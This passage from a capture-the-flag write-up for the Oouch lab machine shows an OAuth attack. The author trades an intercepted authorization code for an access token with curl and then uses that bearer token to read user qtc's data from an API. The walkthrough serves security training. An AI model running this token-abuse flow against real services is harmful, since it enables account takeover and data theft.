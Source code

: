 I did notice that a PHP session cookie was included in that request. This makes no sense to me, but I’ll look at it in [Beyond Root](#unintended-session-hijack).

#### Request Access Token

When the client sends me the `authorization_code`, I can use that to request an `access_token`.

I’ll use `curl` to send the request with the `client_id`, `client_secret`, and `grant_type` from my application (the secret and id are different from the image above because I had to re-register to update this post), the `redirect_uri` , and the `code` (pipped into `jq` to make the result more readable):

```

root@kali# curl http://authorization.oouch.htb:8000/oauth/token/ -d 'client_id=HTGoodnXs4IMOYhJzfss3JmF7m64bQHkoPwZOghy&client_secret=5MUCcGC9TlHJOWqmT2qJjqxKHHIzdGKE8PKqoIOgfhecIUPjoSTnxhWdNWI4BgqLb2yMcnq1N5viFgArgkd6PSWWxfJLPsxYP0kAgAS6AmoF9gNFVO56jymUpcnBYunm&redirect_uri=http://10.10.14.6/token&code=Yv0c6OXDFGhpMJ2nqvDTbMVcOfo3Si&grant_type=authorization_code' | jq .
{
  "access_token": "gm05wp2kDWhSmS3QrZmdEqgvFGoEKD",
  "expires_in": 600,
  "token_type": "Bearer",
  "scope": "read",
  "refresh_token": "lGaAVRyhTybjuiRrF8SVPgiSNXR9Bk"
}

```

It is worth noting the `expires_in` value of ten minutes. I lost some time enumerating the API when the token expired and I didn’t realize it. I can use the `refresh_token` to request a new `access_token` (I’ll leave that as an exercise for the reader).

### SSH as qtc

#### get\_user

I still have the hint about `/api/get_user`, and it makes sense now that I have an `access_token` to access qtc’s data. I was able to find the API pretty easily at `authorization.oouch.htb:8000/api/get_user`. In a browser, it just returns a blank page. In Burp, I see it’s a 403:

```

HTTP/1.1 403 Forbidden
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 0
Vary: Authorization

```

I can add the `Authorization: Bearer [token]` header, and it works:

```

root@kali# curl -s authorization.oouch.htb:8000/api/get_user -H "Authorization: Bearer gm05wp2kDWhSmS3QrZmdEqgvFGoEKD" | jq .
{
  "username": "qtc",
  "firstname": "",
  "lastname": "",
  "email": "qtc@nonexistend.nonono"
}

```
